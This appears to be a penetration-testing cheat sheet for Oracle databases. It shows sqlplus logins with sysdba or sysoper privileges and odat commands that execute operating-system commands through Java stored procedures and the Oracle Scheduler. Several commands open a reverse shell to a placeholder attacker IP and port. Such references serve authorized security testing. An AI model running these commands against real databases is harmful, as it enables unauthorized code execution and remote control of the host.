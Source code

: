 ### Logging into a Remote Database <a href="#00ef" id="00ef"></a>

{% tabs %}
{% tab title="Sqlplus" %}
To login using known credentials, we can use [sqlplus](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener/oracle-pentesting-requirements-installation)

```bash
sqlplus <username>/<password>@<ip_address>:<port>/<SID>
```

{% hint style="danger" %}
If an **account has system database priviledges (sysdba) or system operator (sysop)** you may wish to try the following:

```bash
sqlplus <username>/<password>@<ip_address>/<SID> 'as sysdba'
sqlplus <username>/<password>@<ip_address>/<SID> 'as sysoper'
```
{% endhint %}
{% endtab %}
{% endtabs %}

### Remote Code Execution

{% hint style="danger" %}
If an **account has system database priviledges (sysdba) or system operator (sysop)** you may add following args when using odat:

```
--sysdba
--sysoper
```
{% endhint %}

{% tabs %}
{% tab title="Java" %}
We can try to execute code using [odat](https://github.com/quentinhardy/odat) Java Stored Procedure

```bash
# Execute commands
odat java -s <IP> -U <username> -P <password> -d <SID> --exec COMMAND

# Get a reverse shell
odat java -s <IP> -d <SID> -U <username> -P <password> --reverse-shell <ATTACKING_IP> <PORT>
```
{% endtab %}

{% tab title="Scheduler" %}
We can try to execute code using [odat](https://github.com/quentinhardy/odat) and Oracle Scheduler

```bash
# Execute commands
odat dbmsscheduler -s <IP> -d <SID> -U <username> -P <password> --exec "C:\windows\system32\cmd.exe /c echo 123&gt;&gt;C:\hacK"

# Get a reverse shell
odat dbmsscheduler -s <IP> -d <SID> -U <username> -P <password> --reverse-shell <ATTACKING_IP> <PORT>
```
{% endtab %}
